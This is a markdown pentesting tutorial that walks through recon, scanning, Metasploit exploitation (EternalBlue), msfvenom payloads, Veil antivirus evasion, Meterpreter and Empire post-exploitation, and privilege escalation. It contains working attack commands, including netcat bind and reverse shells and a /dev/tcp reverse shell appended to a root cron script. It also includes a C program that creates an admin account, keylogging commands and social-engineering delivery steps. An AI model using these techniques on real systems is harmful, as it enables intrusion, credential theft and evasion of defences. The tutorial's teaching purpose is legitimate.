

# Network Pentesting e622264c89864e40b9414cf87fd1a8a3

## Network Pentesting

## Pentest Methodology

#### 1.Recon

#### 2.Scanning

#### 3.Exploitation

#### 4.Post-Exploitation

## Information Gathering (Recon)

the stage where we try to collect as much information as possible as shown in the following image.



**General Enumeration using “dig” tool**

```bash
dig +noall +answer google.com NS # to get the DNS server

dig +noall +answer microsoft.com A # to get ipv4 address
 
dig +noall +answer microsoft.com MX # mail server

dig +noall +answer microsoft.com CNAME # alias names

dig +noall +answer microsoft.com AAAA # ipv6 

dig +noall +answer microsoft.com ANY # to get all of the above

dig +noall +answer @spacific_DNS_Server microsoft.com ANY # to search in specific dns server
 

```

OR Using “dnsrecon” tool

```bash
dnsrecon -d microsfot.com 

dnsrecon -d microsfot.com -n specific_dns_server 
```

### Zone Transfer Technique

it points to collect DNS servers for target and try to dump data records from DNS servers for this target .

it aims to collect much information as possible about the target

**achieve this by using “dig” tool**

```bash
dig +noall +answer microsoft.com NS # to get DNS servers for microsoft 

dig +noall +answer @ns1.msft.net microsoft.com AXFR # to dump data from DNS server 
```

**achieve it automatic using “dnsrecon” tool**

```bash
dnsrecon -d microsoft.com -t axfr 
```

### Subdomain Enumeration techniques

#### Google Dorks

some rules to search in google with some filters and modification used in finding subdomains such the following Dork

💡 site:\*.microsoft.com - www.microsoft.com

it means search for every subdomain ended with “microsoft.com” without showing “www.microsoft.com”.

#### The Harvester

it use google and more sites to get subdomains without active interaction with target we can use it as following

```bash
**theharvester -d microsoft.com -b google,bing,yahoo,netcraft,virustotal**
```

#### “Find SubDomains” site

also it similar to the harvester tool but it is search engine

#### Recon-ng tool

top modules that used to find subdomains :

* **recon/domains-hosts/bing\_domain\_web**
* **recon/domains-hosts/findsubdomains**
* **recon/domains-hosts/google\_site\_web**
* **recon/domains-hosts/netcraft**
* **recon/domains-hosts/bing\_domain\_api**

#### Reverse Lookup

it is the operation where we turn the ip into subdomains .

it can done by collect network ranges for target and get the subdomains

**Getting Network range from “** [**http://whois.domaintools.com**](http://whois.domaintools.com) **“ site**

we can turn ip into subdomains using many tools such

```bash
# using dnsrecon
dnsrecon -r 40.74.0.0-40.125.127.255

#using dig 
dig +noall +answer -x 65.55.93.86 

#using ip.info.io site 
curl ipinfo.io/172.217.19.46

```

#### Subdomains Brute Force

mean trying some common subdomains names on the main target domain and resolve it to IP if found .

we can do it using tools such

```bash
##DNSRecon
dnsrecon -t brt -d microsoft.com -D /usr/share/dnsrecon/namelist.txt

##Recon-NG by using this module 
recon/domains-hosts/brute_hosts

##Resolve and Extract Sub-Domains
recon/hosts-hosts/resolve ## to resolve
reporting/list            ## to store an coulmn in file from source table 

```

***

### **Find Emails and Users**

we can find emails and users using “ the harvester ” tool

💡 Note: we should add our “hunter site” api key to the following path

**“ /usr/share/theharvester/discovery/huntersearch.py”**

**Finding emails**

```bash
##using the harvester 
theharvester -d target.com -b hunter > result.txt   ## using hunter site 

```

after finding some emails we can search in “**haveibeenpwned.com**” site to check if any of those emails are hacked before and we probably can get hashed passwords or plain text passwords

**Finding users**

```bash
##using the harvester 
theharvester -d target.com -b "socialmedia site" ## we can search in twitter e.g  

##using the Google Dorks 
inurl:"linkidin.com/in/" "target.com"

```

***

### Finding target environment applications

common way to find applications is doing Meta Data Analysis

**so what is Meta Data ?**

it‘s data about data ,for example data about an image such the image generator application or it’s version .

we can do Meta Data Analysis using tools such

```bash
## using Metagoofil
metagoofil -d target.com -t pdf,doc,xls,ppt -l 100 -n 10 -o files_dir -f final_data.html

## using Exiftool
exiftool filename.pdf  ## file name refer to collected files in "files_dir" directory from previous step 

## we can collect files using Google Dorks 
site:microsoft.com filetype:pdf
```

***

### Finding target antivirus

we can find target antivirus using “recon-ng” tool depend on “DNS cash snooping” Technics.

it can done as the following steps

```bash
## first finding DNS servers of target 
dig +noall +answer target.com NS

## secondly turn the DNS hosts to ip addresses 
dig +noall +answer DNS_server_name.com A

## third step use recon-ng tool by setting the DNS ip in "NAMESERVER"  and run the module 
discovery/info_disclosure/cache_snoop ## module name 
 

```

### Google & Shodan Dorks

here a good source “https://github.com/mr-exo/shodan-dorks”

***

***

## Scanning

the process of discovering, analyzing, and reporting on security flaws and vulnerabilities

#### **Scanning Steps**

* **Network Sweeping : getting live hosts**
* **Network Tracing : the path to reach the target**
* **Port Scanning : get host ports status**
* **OS Fingerprinting : get OS type**
* **Version Scanning : online services and it’s versions**
* **Vulnerability Scanning : get possible vulnerabilities**

#### Before start penetration testing process Keep in your mind some tricks.

* **When scanning systems use IP addresses instead of Domain Names.**
* **In large scan cases use most popular ports instead of all ports OR if you want to scan all the ports use multiple systems to perform full scanning on the target organization.**
* **Run a sniffer all time such (TCPDUMP , WIRESHARK )**

### Network Sweeping

trying to get live hosts

Nmap do host discovery through

1. ARP (when target in local network )
2. ICMP
3. TCP SYN (port:443)
4. TCP ACK (port:80)

look if the hosts is up or not

```bash
nmap -n -sn 192.168.1.5      #sn --> mean without port scanning  
nmap -n -sn 192.168.1.0-255  #to scan range of ips  OR using 0/24
```

we can doing it with another method

```bash
nmap -n -Pn -sS 192.168.1.5 
# Pn --> skip host discovery means treat all hosts are up and make port scanning 
# sS --> making scan with TCP SYN Scan 
```

### Network Tracing

**the path to target means each hope or node to reach the target**

```bash
traceroute -n 192.168.1.5    # by default using UDP Protocol , -n --> don't resolve 
traceroute -n -T  192.168.1.5  # using TCP Protocl 
traceroute -n -I  192.168.1.5  # using ICMP -->  best practice 
```

and we can get the information about specific node using :

```bash
curl ipinfo.io/node_ip
# for example 
curl ipinfo.io/129.134.44.101

# in windows os 
tracert -d 129.134.44.101
```

### Port Scanning

get host ports status.

#### TCP & UDP Behavior

when do port scanning with TCP or UDP the host behavior often is different

**TCP**

.png>)

**UDP**


#### Achieve Port Scanning

we can control the speed of port scanning

```php
nmap -Pn -T{1|2|3|4|5} target 
// by default it use "3" we can use "2" in case of strong ids 
//for example 
nmap -Pn -T3 192.168.1.7
```

some of Scan Types

```php
 
// "sS" --> TCP SYN --> use only the (SYN , SYN ACK) *Often best practice*
// "sT" --> TCP Connect --> use the 3 way handshake (SYN , SYN ACK , ACK )
// "sU" --> UDP --> use udp protocol *very slow* 
// for example 
nmap -Pn -sT 192.168.1.7
```

scan specific ports

```php
// by default nmap scan common 1000 port 

nmap -p 21,80 192.168.1.7    //  scan specific ports 
nmap -p 21-80 192.168.1.7    //  scan range of ports 
namp -p 1-65535 192.168.1.7  //  scan all possible ports   
nmap --top-ports 100 192.168.1.7  // scan most common 100 ports 
```

important arguments

```php
// "-reason " to show whey port is open or closed depend on packet behavior 
// for example 
nmap -p 21,80,3000 192.168.1.7 -reason 

//"-badsum" --> if the target firewall ignore packet with no clear checksum we can use this command to cheat it 

  nmap -p 21,80,3000 192.168.1.7  -badsum 
```

#### OS fingerprinting & Version scanning

we can identify target Operating system by :

```bash
nmap -O 192.168.1.7
```

and we can identify services and application that running on open ports and it’s version too by :

```bash
nmap -sV 192.168.1.7
```

### Vulnerability Scanning

we can use 2 tools to scan vulnerabilities :

* Nmap Scripts Engine (NSE)
* Nessus

#### Nmmap Scrips Engine

Collection of scripts we use it to do vulnerability scanning

we can find all scripts in “/use/share/nmap/scripts”

make general vulnerability scanning by :

```bash
nmap -sC 192.168.1.7
```

Note: the general scan doesn’t use all scripts it use the scripts that can’t harm the target

k

to scan with specific script

```bash
namp --script==script_name -p 80 192.168.1.7

#for example
nmap --script=ssl-ccs-injection.nse  -p 80 192.168.1.7
```

to scan with collection of scripts

```bash
nmap --scrpt=ssl*  -p 80 192.168.1.7 #run all scripts it's name starts with "ssl"
```

#### Nessus

Nessus is advanced tool for vulnerability scanning that have a lot of plugins

after creating new scan we can choose many vulnerability scanners to use, the common are :

* Basic Network Scan
* Advanced Scan

_**Basic Network Scan :**_

it is limited scan that we can

* Set the ips of target
* Specify scan common ports or all ports
* Scanning the web vulnerabilities
* control scan bandwidth
* adding some credentials to using in test such (SSH credentials)
* scan target with all plugins

_**Advanced Scan :**_

It has all “Basic Network Scan” features but with additional features and more customization :

* choosing protocols to use in testing process
* specify the devices to scan in infrastructure
* customize which ports to scan
* service fingerprinting
* Scan SSl certificates
* collect data about Active Directory
* Brute Forcing
* Option to specify the plugins used in Scan (important)

### Enumerating Users

trying to interact with system to get more users

#### SMB

we can enumerate users through misconfiguration on SMP such “null session” misconfiguration

_**Smp:**_ service running with “netbios” service hand on hand on ports (139,445)

enable users communicate with computer or servers to share files

**Null Session Misconfiguration :** It when we can connect a service without username and password.

Identifying whether the target has Null Session misconfiguration or not using “rpcclient” tool:

```php
rpcclient -U "" -N 192.168.1.7
```

after getting the session through the misconfiguration we can enumerate users though **`enumdomusers`** command

after getting users we can get more information about user by using

```php
queryuser "user_Id"

//for example 
queryuser 0xbb8
```

where we can’t access service without user name and password so we can use general usernames to access service :

```php
rpcclient -U "test" -N 192.168.1.7 
```

**Automate the previous process using “enum4linux”**

```bash
#without user name and password 
enum4linux 192.168.1.7

#with username and password
enum4linux -u "test" -p "test" 192.168.1.7
```

#### SMTP

we can enumerate users through mail service “SMTP” on port 25

so we connect the service using “telnet” :

```php
telnet 192.168.1.7 25 
```

after connecting to service we can enumerate users manual or automatic

**Manual**

```php
VRFY user 
```

**Automatic** using “smtp-user-enum” tool

```bash
smtp-user-enum M VRFY -U users_list.txt -t 192.168.1.7
## Note "users_list.txt " file contain list of users using in bruteforcing 
```

### Netcat

**finding open ports using Netcat**

```php
nc -nv 192.168.1.7 21   //check wether the 21 port is open or not 
nc -nvz 192.168.1.7 21  // *z* argument to terminate the connection after check 
timeout 5 nc -nv 192.168.1.7 21 // as same as *z* argument but we can specify the time to terminate
```

We can create a simple bash script to scan all ports with Netcat

```php
for ports in {1..65535} ;
nc -nvz 192.168.1.7 $ports ;
done ;
```

**chat using Netcat**

```php
// firstly we run netcat listner on target machine 
nc -nvlp 4444 

// secondly we will connect the target at the samp port 
nc -nv 192.168.1.7 4444

// now we can chat with the another machine 
```

**Getting bind shell**

bind shell used in case the target ip is public

```php
// firstly on the target machine we will run a listner and at the same time excute shell
nc -nvlp 4444 -e /bin/bash 

// secondly on our machine we can conncet to the target machine 
nc -nv 192.168.1.7 4444  
```

**Getting Reverse shell**

Reverse shell in case the target ip is internal ip

```php
// so from the attacker machine 
nc -nvlp 4444 

// from target machine 
nc -nv 192.168.1.2 4444 //these ip is attcker ip  
```

#### Ncat

it as same as Netcat but we the traffic is encrypted and with more customization

```php
//from target machine 
ncat -exec /bin/bash --allow 192.168.1.2 -vnl 4444 --ssl //*--allow* to allow only ip to conncet

//from attcker machin 
ncat -v 192.168.1.7 4444 --ssl  
```

***

***

## Exploitation

where the pentester attempts to leverage identified vulnerabilities within the target system or application

### Search For Exploits

After scanning stage so we have some information about target such ( services, Version, OS) and so on

so we can search about service and it’s version to get exploits

For example after scanning target we got the following :


for example we will search for the first service , so how we can search for exploits?

#### Google

simply we can search on google for exploits for the version of our service

#### Exploit DB

it is huge databases which has a lot of exploits for a lot of versions of services


#### SearchSploit

it is tool running local on our machine have a copy of “ Exploit DB “ exploits but before using we should always update it to get the latest copy of “Exploit DB”

we can search for exploits by :


### Metasploit

It is an advanced framework used in exploitation process

**Metasploit Preparation**

```bash
#commands to get started with metasploit
update-rc.d postgresql enable
service postgresql start
msfdb init
```

#### **Metasploit Modules (categories)**

**auxiliary : some scripts for enumeration, scanning and etc...**

**exploits : code to exploit the vulnerability and deliver the payload.**

**payloads : the code that executed on the victim.**

**encoders : encode the payloads to another form.**

**post : post exploitation scripts.**

**nops : add nops bytes.**

**evasion : scripts for evasion.**

#### How to use Metasploit

```bash
#commands in Metaspolit framework
help              # to show commands and usage 
show all          # to display all modules and specific module by adding it's name 
search "service"  # to search for exploit for specific service 
use "module_name" # to use specifice module or exploit
show info         # to show the module inforamtion and requirments 
set "Variable" "value"  # to set values for required variables in module 
exploit           # to start the exploit 
```

### Bind shell Vs Reverse shell

first of all to get a shell on target machine at least one of tow machines (attacker, target) should have a public ip .

**bind shell case**

* target have public ip
* target is listening on specific port
* attacker establish connection to target machine
* when connection is established the target run the shell

**reverse shell case**

* attacker have public ip
* attacker is listening on specific port
* target establish connection to attacker machine
* when connection is established the target run the shell


### **Staged Payload vs Single Payload**

#### **Staged Payload**

Payload is divided into tow sections (**stager , stage** )

so here is the difference between them

**Stager**: The stager is a small, initial piece of code sent to the target system. Its primary purpose is to establish a communication channel back to the attacker and retrieve the larger, more complex payload (the stage). The stager is typically designed to be lightweight and to evade detection by security mechanisms.

**Stage**: Once the stager successfully connects back to the attacker, it downloads and executes the stage. The stage is the main payload that carries out the intended actions, such as creating a reverse shell, executing commands, or establishing a persistent backdoor. The stage can be much larger and more feature-rich compared to the stager.

> the advantage of staged payload method it easy to troubleshoot the exploit

#### Single Payloads (Stageless)

Single payloads contain all the necessary code in one package. They are delivered and executed in a single step without needing to download additional components.

> it is hard to managed and troubleshooted

## **Exploit Types**

***

### Service Side

**To exploit service remotely , means after scanning target for vulnerable services we deliver the payload through exploit to get impact.**

#### Exploit Using Metasploit

the first thing we can do is searching for exploit in Metasploit and run the exploit so here we go

```bash
search $service_name           # to search for exploit
use  $exploit_name             #use the exploit 
show options                  
set $requirment_field_name $value   #set the exploit requirments such (host,port,etc..) 
show payloads                    #showing payloads we can use in these exploit                        
set payload $payload_name        #use specific payload
show options                      
set $requirment_field_name_in_payload $value  
exploit                          #starting the attack

#additional options 

exploit -j                  #to run exploit in background 
sessions -l                 #to show all running exploits 
sessions -i $sessions_id    #to interact with running sessions or exploit 

```

#### Search And Exploit Manually

*   firstly we can search for exploit manually following these steps

    [Search For Exploits](network-pentesting-e622264c89864e40b9414cf87fd1a8a3.md)
* after downloading it we look for it’s documentation and see how to use it
* if it hasn’t docs we can look at the code of exploitation to know how it works

#### Attacking windows Machine example

Upon Scanning host 192.168.1.3 we identify that it is windows machine and it is vulnerable to “ **MS17-010 “** that can lead to get Meterpreter on machine.

**Exploit with Metasploit :**

```bash
search **MS17-010 type : exploit  
use exploit/windows/smb/ms17_010_eternalblue
show options 
set rhosts 192.168.1.3
show payloads
set payload windows/x64/meterpreter/reverse_tcp  #it is payload we can get metrpreter with
show options 
set LHOST 192.168.1.2              # payload require to set my machine ip            
exploit** 

```

**Manual Exploitation :**

firstly we can search on google to find the exploit , upon searching we reached the exploit within repo on github where the publisher shares how to use the exploit , here we go to use it

1.  downloading exploit

    ```bash
    sudo git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git
    ```
2.  access and preparing exploit

    ```bash
    cd AutoBlue-MS17-010/shellcode 
    ./shell_pre.sh
    #set all requirments the payload need such (LHOST,PORT,etc..)
    ```
3.  setting listener

    ```bash
    ./listner_prep.sh
    #set all requirments the payload need such (LHOST,PORT,etc..)
    ```
4.  Running the exploit

    ```bash
    python eternalblue_exploit7.py 192.168.1.3 shellcode/sc_all.bin 
    # " shellcode/sc_all.bin " is the payload name 
    ```

### Client Side

**It includes tow technics**

1. **Sending malicious file**
2. **sending malicious link**

***

#### **Sending malicious file**

it can be done three stages :

1. **Generate Malicious File**
2. **Setup a Listener**
3. **Sending To Target**

we will consider a windows machine as target example to get reverse shell on target

#### Generate Malicious File

we will use msfvenom tool (tool included in Metasploit framework ) to generate malicious file

```bash
msfvenom -l         #to list all payloads are in meatsploit 

msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.2.15 LPORT=4444 -f exe > file.exe
## "-p" to set the payload that the file will depend on it 
## setting my machine ip and port to connect through 
## "-f " to control the file extention depend on target system 
## if target system is (windows=>.exe) (linux=>.elf) (target_has_python=>.py) 
```

#### **Setup a listener**

we can use either Metasploit or Netcat

```bash
##using Meatsploit 
msfconsole
use exploit/multi/handler                ##exploit used in listening 
set PAYLOAD windows/meterpreter/reverse_tcp   ## set the payload as malicious file generation payload  
set LHOST 192.168.1.2                  ## setting my machine ip
show options
exploit
 

```

#### Send To Target

it depend on social engineering technics meaning you will gather information about target to know what you can do to make him download our malicious file , here a an examples of social engineering technics

💡 \[https://www.terranovasecurity.com/blog/examples-of-social-engineering-attacks]\(https://www.terranovasecurity.com/blog/examples-of-social-engineering-attacks)

***

#### **Sending Malicious Link**

we can attack target through link in tow cases

1. Exploit Browser Vulnerability
2. Exploit Java Vulnerability

**Exploit Browser Vulnerability**

for example exploit (Internet explorer 8)

**Steps:**

1. search and download the exploit (col\_span\_id\_bind)
2. host the exploit on our web server
3. sending exploit path on server to target
4. when target click the link the exploit runs and open port on it’s machine
5. so here we have a bind shell
6. we will connect to the target machine using Netcat

💡 we can edit exploit to get reverse shell instead of bind shell by replace the “shellcode+” section value in exploit with reverse shell code in javascript format

**Exploit Java Environment Vulnerability**

we depend in this attack that the user have install old version of java and it has a misconfiguration

**Steps:**

1. prepare exploit using Metaslpoit

```bash
use exploit/multi/browser/java_signed_applet
set payload windows/meterpreter/reverse_tcp
exploit
```

1. Metasploit gives an link in “Using URL” section
2. sending given link to target
3. once the target click ,accept and download the file we will get meterpreter

***

### AntiVirus Evasion

It is how to trick the target antivirus through manipulate malicious file code to make it shows different signature if antivirus is signature based .

we can achieve antivirus evasion using “Veil Framework” that has all Metasploit payloads but with different signatures.

**Steps:**

1.  generating payload

    ```bash
    use Evasion
    list 
    use powershell/meterpreter/rev_https.py     
    use c/meterpreter/rev_https.py           ## we can use different payloads based on target system
    use pyhton/meterpreter/rev_https.py
    ## setting paylaod requirments 
    generate
    ```
2. then the “Veil” export the payload “payload.bat” and export the listener based on Metasploit “listener.rc”
3.  starting listener

    ```bash
    msfconsole -r payload.rc
    ```
4. sending the “payload.bat” to target

***

### Port Forwarding

is a technique used to access a port on a remote machine that is normally inaccessible from the attacker's machine. It involves routing network traffic from one port to another port or from one IP address to another.

#### Local Port Forwarding

It forwards traffic from a local port on the attacker's machine to a specified port on a remote server. This can be used to connect to a service behind a firewall or a NAT.

we can make port forwarding using Netcat through the following steps :

1. creating node on target machine it works as a gate between attacker and specific service on target machine

```bash
mknod Mode_name p
```

1. from attacker machine create connection to target to pass our commands through

```bash
nc 192.168.1.5 1111
```

1. run listener on target machine

```bash
nc -lnvp 22 
```

4.active the bridge on target machine to pass attacker input to targeted service on target machine

```bash
nc -lvnp 1111 0<node_name | nc 127.0.0.1 22 1>node_name 
```

***

***

## Post Exploitation

**Post-exploitation is a critical phase in penetration testing that involves maintaining access, data extraction, privilege escalation,**

**and system pivoting once initial access has been gained**

### Meterpreter

**Core Commands:** specific with meterpreter

```bash
Background  ##Run sesssion in background  
ps          ## to show all process 
getuid      ## current user privilege 
getpid      ## currnet shell process id 
shell       ##use the system native shell instead of meterpreter 
kill _Pid  ## to kill specific process 
```

**Migrate Process** : means run the meterpreter on process can have long time to be killed such “Explorer.exe”

```bash
migrate 648       ## "648" is the process we turn our shell to 
										## Note!! we can migrate to process only that have the same privilege or less 
```

**File system Commands**

```bash
cp file.txt Desktop/file.txt         ## to copy files 
mv file.txt Desktop/file.txt         ## to move files 
download dir1/test.txt /root/test.txt ##downlaod files from target to our machine 
upload /root/test.txt c:/users/test/Desktop/test.txt   ##upload files from our machine to target 
search -f file_name  -d path_to_search 
```

**Network Commands**

```bash
##port forwrding
portfwd add -l 6666 -p 7777 -r 192.168.1.7 #forward from my machine to target 
portfwd add -R -L 192.168.1.7 -l 6666 -p 7777 #reverse from target to my machine 
```

**Powerfull Commands**

```bash
getsystem  ##trying to get admin or root privilege 
hashdump  ##dumping user hashes 
screenshot -p _path_to_store_screen_shot
keyscan_start -v  ## to run capture  target keyboard 
keyscan_dump     ## show the result of cupturing  
keyscan_stop     ##to stop cupturing 
```

### **Metasploit Post Exploitation**

After gaining access on target machine we can take advantage of this

for example to dump users name or passwords or escalate privileges we can done these using Metasploit modules for post exploitation

```bash
search type:post platform:linux
	                                   #to search for modules used in post exploitation 
search type:post platform:windows

use Module_name         

show options                
set session 2        #to specify the session the module will run on 
run 
```

for example we can use “post/multi/recon/local\_exploit\_suggester”

it is module to suggest exploits that can run on our target :

```bash
search type:post
use post/multi/recon/local_exploit_suggester
show options
set session 1
run
```

for example we can use “use post/windows/manage/payload\_inject\*\*”\*\*

to change the payload that running on system with another payload

```bash
use use post/windows/manage/payload_inject
show paylaods 
show options 
set handler true
set lhost 192.168.1.114
set lport 4444
set payload windows/meterpreter/reverse_tcp
set session 1
run
```

### Windows Privilege Escalation

It’s How to escalate privilege from normal user to admin user on windows machine.

#### **kernel Unpatched**

In this case we can escalate privilege through a bug or problem in operating system kernel.

for example we have windows 7 machine as target and after gaining remote access on this machine we can try to escalate privilege using Metasploit through :

1. **usig “local\_exploir\_suggester” module** to show potential points that can be vulnerable

```bash
use post/multi/recon/local_exploit_suggester
show options                
set session 1        
run
```

1. we can see “ms16\_016” exploit that can fit on target

```bash
use exploit/windows/local/ms16_016_webdav
set session 1
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.1.9
set lport 4444
exploit
```

1. we will notice there is a new session opened we interact with to validate that we got admin user using “getuid”
2. **using “bypassuac\_eventvwr” module**

```bash
use exploit/windows/local/bypassuac_eventvwr
set session 1
run 
getsystem 
getuid 
```

#### **Misconfiguration**

If there is an application run service as administrator and application has a misconfiguration such that application run a file that every user can access.

so to exploit it we can replace this file with a malicious file and using this malicious file we can get an admin user

for example a target running a “photodex” application and it run service called “ScsiAccess” it runs at boot time this service has a misconfiguration that machine run “ScsiAccess.exe” file at boot time and every user on system can access this file.

In this case we can exploit it by replacing the file with malicious file Which in turn will add a new user to administrator group

```c
#include <stdlib.h>

int main ()
{

system ("net user test1234 test1234 /add");  //adding "tes123" as new user 
system ("net localgroup administrators test1234 /add");  

return 0;
}

```

**Exploitation Steps :**

1. validate that every user can access the file using “icacls” tool

```bash
icacls scsiaccess.exe
```

.png>)

1. rename “scsiaccess.exe” to any name

```powershell
move scsiaccess.exe any_name.exe
```

3.prepare malicious file by make it executable file and rename it with service file name

```bash
i686-w64-mingw32-gcc win-miss-conf.c -o scsiaccess.exe
```

1. moving malicious file to service path

### linux Privilege Escalation

#### Kernel unpatched

we can follow some steps to exploit linux with unpatched kernel :

1. get kernel version

```powershell
uname -a
```

1. searching for exploit for this version whatever at google, exploitdb, etc.. “Linux Kernel kernel\_Version”
2. By following Exploit documentation steps to run exploit then you got admin privilege

#### Misconfiguration

**Misconfiguration (SUID bit)**

firstly we should know how “s” permission in linux how it works

simply if file has “s” permission that mean every user on system can execute this file with permission of the user who created this file

steps to exploit :

1. searching for files have “s” permission

```bash
find / -perm -u=s -type f
```

1. we can search on internet for exploit for files that been showed
2. for example we find nmap
3. get nmap version
4. after searching for nmap 4.53 exploit we find that we can exploit it with

```bash
nmap --interactive 
!sh
```

**Misconfiguration (CronJob)** A **cron job** is a scheduled task in Unix-like operating systems that is executed at specified intervals by the cron daemon.

If a cron job runs as root but the script it executes is writable by a normal user, the attacker can modify the script to include malicious commands. When the cron job runs, it executes the attacker's code with root privileges.

for example :

Suppose there is a cron job that runs a script every 5 minutes as root:

```bash
*/5 * * * * root /home/user/backup.sh
```

If the script `/home/user/backup.sh` is writable by the user, the user could modify it to include a reverse shell:

```bash
echo "bash -i >& /dev/tcp/attacker_ip/attacker_port 0>&1" >> /home/user/backup.sh
```

### File Transfer

Methods to transfer files from and to target machine

#### Wget

```bash
python -m SimpleHTTPServer #lunch http server on Attacker Machine 
wget 192.168.114:8000/file.txt #Victim Machine

```

#### NetCat

```bash
nc -nlvp 4444 > wget (wget.exe) # listenning on Victim Machine
nc -nv 192.168.1.4 4444 < /usr/bin/wget   ## connect from attacker machine 
```

#### FTP

firstly we should ensure that the ftp server is running on our machine

```bash
service vsftpd start ## activing ftp server 

## we should edit configuration file to allow 2 way trasnfer 
nano /etc/vsftpd.conf => write_enable=YES
```

on the another hand on victim machine

```bash
ftp attacker_machine_ip
##then entering username and password
pwd | ls  #print current directory and list files on remote host
lcd | !ls #print current directory and list files on local host
##there tow modes to trasnfer files 
ascii     # file is not executable file
binary    # file is executable file
get /home/test/file.txt /home/msfadmin/file.txt   #to downaload from attcker machine 
put /home/msfadmin/file.txt /home/test/file2.txt  #to upload to attcker machine 

```

#### Powershell

on attacker machine lunching web server

```bash
python -m SimpleHTTPServer 8000
```

on victim machine we can use power shell to download (wget ,Netcat , vsftpd) to make the file transfer easy by running the following commands

```powershell
powershell -command "(New-Object System.Net.WebClient).DownloadFile('http://192.168.1.8:8000/vsftpd.exe', 'c:\users\test\vsftpd.exe')" 

```

### Powershell

PowerShell is a task automation and configuration management framework from Microsoft,

```powershell
###################################################################

########## PowerShell ##########
? ## stand for "if" condition 
% ## stand for "for" loop

get-command       #to show every commands we can use in powershell  
get-command get*  #show every command start with "get" 
get-command *process
get-command *service
help rm
get-alias -Definition get-process   #show aliases for command that doing what the main command do 

#PowerShell		    #alias	   	  #cmd			        #linux
Get-ChildItem	    ls,dir		    dir				       ls
Copy-Item		      cp,copy		  copy			         cp
Move-Item		      mv,move		  move			         mv               
Select-String	    sls			    find,findstr	   grep     ##comparison between 3 command line systemes 
Get-Help		        man,help    help			         man
Get-Content		    cat,type	    type		 	         cat
Get-Process	      ps,gps	      tasklist		      ps
Get-Location	      pwd			     cd				        pwd

Get-Service | gm   #gm => get all command properties 
Get-Service | ? {$_.status -eq "running"}  #show column by condtion  
Get-Service | select servicename, displayname  # show specific coloumn 

#Search For Files

ls -r C:\users *.txt  # list recursive only end with "txt"
ls -r C:\users *.txt | % {echo $_.fullname}  #show path for every file 
ls -r C:\users *.txt | % {select-string -path $_ -pattern password} ##search for string such "password" in this example 
#Some Usefull Things
3+4 | 5*8 | 8/4
1..10 | (1..10).count | (ps).count | (ls).count
1..10 | % {echo $_}
1..10 | % {ping -n 1 10.0.2.$_ | select-string ttl}

#Port Scanning
20..22 | % {echo $_; echo ((new-object Net.Sockets.TcpClient).Connect("192.168.43.8",$_)) "port $_ is open"} 2>$null

####################################################################

```

### Empire powershell

**it have 3 sections :**

modules : scripts that we can run on target system

listeners : listener to receive the connection

agents : malicious powershell payloads

#### Setting Listeners

```powershell
listeners ## to show current running listeners 
uselistener http
info
#setting required inforamtions  
execute
```

#### Setting Agents

```powershell
agents ##current setted agents 
usestager windows/launcher_bat  ##agent based on powershell 
info
set Listener http    # setting listenr to receive connction on 
set outFile /root/launcher.bat ##the path the agent will be saved in 
execute

```

💡 Note: when agent is executed it auto remove itself from target machine

#### Interact with Agent

```powershell
help #to show commands we can use 
agents
interact $AgentName
rename win7 ##to rename the agent 
info           #inforamtion about agent and victim machine 
shell ipconfig | shell dir | ipconfig | dir   ##to run powershell commands 
upload /root/launcher.bat C:\Users\test\Desktop\launcher.bat   
																																				#download and uplaod files 
download C:\Users\test\Desktop\launcher.bat 
```

#### Modules

```powershell
usemodule + doubl_tap_on_keyboard   ##to show all modules that we can use 
searchmodule Persistence       #to search for modules 
usemodule module_Name          #to use specific module 
info                           #showing module information 
##setting module requirments 
run                 #excute attack 
kill agent_Name    #to shutdown running agents 
kill listener_Name #to shutdown running listeners 
```

**here some useful modules →**

**powershell/collection/screenshot** : taking screenshot form target system

**privesc/bypassuac** : get high privilege

**privesc/getsystem** : should runs after running “bypassuac” module to get admin privilege

**situational\_awareness/network/arpscan** : scan target network for live hosts

**powershell/situational\_awareness/network/portscan** : port scanning on device on target network

***

***

## Password attacks

after enumerating users by following this technique “[Enumerating users](https://www.notion.so/Network-Pentesting-hassan-saad-e622264c89864e40b9414cf87fd1a8a3?pvs=4#3c63041557a64866986a8f61404515f2)”

then we can use password attack techniques

### Password Generation Tools

#### Crunch Tool

write characters manually

```bash
crunch $min $max $characters -o outputFile.txt 
## "min & max " To determine the maximum and minimum length of every password 
## "characters" to specify characters password list will based on  
##for example 
crunch 6 6 0123456789ABCDF -o password_List.txt
##or we can use Abbreviations 
, -> upper
@ -> lower
^ -> special char
% -> number
##for example 
crunch 4 4 -t ,@%^
```

use combination of characters blocks

```bash
